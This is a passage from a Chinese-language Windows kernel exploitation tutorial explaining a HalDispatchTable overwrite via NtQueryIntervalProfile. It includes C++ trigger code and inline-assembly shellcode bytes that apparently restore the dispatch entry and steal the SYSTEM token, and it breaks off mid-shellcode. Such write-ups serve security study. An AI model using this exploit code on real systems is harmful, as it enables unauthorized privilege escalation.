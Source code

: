 `NtQueryIntervalProfile`首先校验`_KTHREAD`中`PreviousMode`(Offset 0x13A)字段值(关于`_KPCR`，`_KPRCB`，`_KTHREAD`上一篇有介绍)：

[![](https://p5.ssl.qhimg.com/t0107acd6609fd17a94.png)](https://p5.ssl.qhimg.com/t0107acd6609fd17a94.png)

其次判断参数`Interval`指向地址是否超过`MmUserProbeAddress`：

[![](https://p2.ssl.qhimg.com/t01802c51aeb1cce7b5.png)](https://p2.ssl.qhimg.com/t01802c51aeb1cce7b5.png)

最后判断`ProfileSource`是否为零，非零值则调用`KeQueryIntervalProfile`：

[![](https://p5.ssl.qhimg.com/t01aa802857fcff21a7.png)](https://p5.ssl.qhimg.com/t01aa802857fcff21a7.png)

`KeQueryIntervalProfile`会判断`ProfileSource`是否为1，不为1才会继续调用`nt!HalDispatchTable+0x4`

如此，笔者构造Exploit中对该函数调用如下：

```
PNtQueryIntervalProfile NtQueryIntervalProfile = (PNtQueryIntervalProfile)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQueryIntervalProfile");
    if (!NtQueryIntervalProfile) `{`
        cout &lt;&lt; "[!] Failed to Get the Address of NtQueryIntervalProfile." &lt;&lt; endl;
        cout &lt;&lt; "[!] Last error " &lt;&lt; GetLastError() &lt;&lt; endl;
        exit(1);
    `}`
    NtQueryIntervalProfile(ProfileTotalIssues, (ULONG*)SC);        //SC——&gt;Shellcode Address
```

对`nt!HalDispatchTable+0x4`函数调用不止`KeQueryIntervalProfile`一处，所以在Shellcode中需要将其替换成原数值，通过其与`HalSetSystemInformation`函数地址相差0x912来进行恢复：

```
INT32 KrBase = GetKernelBaseAddress();
    INT32 HalDispatchTable_Address = KrBase + 0x0012b3f8;
    INT32 HalQuerySystemInformation_Address = HalDispatchTable_Address + 0x4;
    INT32 HalSetSystemInformation_Address = HalDispatchTable_Address + 0x8;     //HalQuerySystemInformation_Address Offset 0x14
    CHAR* SC = (CHAR*)VirtualAlloc(0, 0x60, 0x3000, 0x40);
    ZeroMemory(SC, 0x60);
    __asm `{`
        pushad;
        mov eax, HalSetSystemInformation_Address;
        mov ebx, HalQuerySystemInformation_Address;
        mov edi, SC;
        mov[edi], 0x60;
        mov dword ptr[edi + 0x1], 0x000000E8;
        mov dword ptr[edi + 0x5], 0x588B5800;
        mov dword ptr[edi + 0x9], 0x4F488B4B;
        mov dword ptr[edi + 0xD], 0xEA81138B;
        mov dword ptr[edi + 0x11], 0x00000912;
        mov dword ptr[edi + 0x15], 0x90901189;
        mov dword ptr[edi + 0x19], 0x8B64C031;
        mov dword ptr[edi + 0x1D], 0x00012480;
        mov dword ptr[edi + 0x21], 0x50408B00;
        mov dword ptr[edi + 0x25], 0x04BAC189;
        mov dword ptr[edi + 0x29], 0x8B000000;
        mov dword ptr[edi + 0x2D], 0x0000B880;
        mov dword ptr[edi + 0x31], 0x00B82D00;
        mov dword ptr[edi + 0x35], 0x90390000;
        mov dword ptr[edi + 0x39], 0x000000B4;
        mov dword ptr[edi + 0x3D], 0x908BED75;
        mov dword ptr[edi + 0x41], 0x000000F8;
        mov dword ptr[edi + 0x45], 0x00F89189;
        mov dword ptr[edi + 0x49], 0x31610000;
        mov dword ptr[edi + 0x4D], 0x0000C3C0;
        mov dword ptr[edi + 0x51], eax;
```